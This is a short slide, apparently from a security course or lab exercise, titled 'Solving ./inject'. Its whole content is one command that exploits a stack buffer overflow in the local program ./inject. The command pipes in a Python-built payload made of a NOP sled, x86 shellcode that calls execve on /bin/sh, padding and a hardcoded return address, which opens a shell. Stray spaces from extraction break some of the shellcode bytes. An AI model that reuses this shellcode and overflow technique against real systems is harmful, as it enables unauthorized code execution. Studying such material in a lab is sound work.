

# Solving ./inject

An exploit for ./inject:

(python -c 'print "\x90"*80 +  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x6  9\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x3  1\xc0\x40\xcd\x80" + "\x90"*32 +  "\x30\xf6\xff\xbf"'; cat;) | ./inject

APU - CBE : 22 February 2020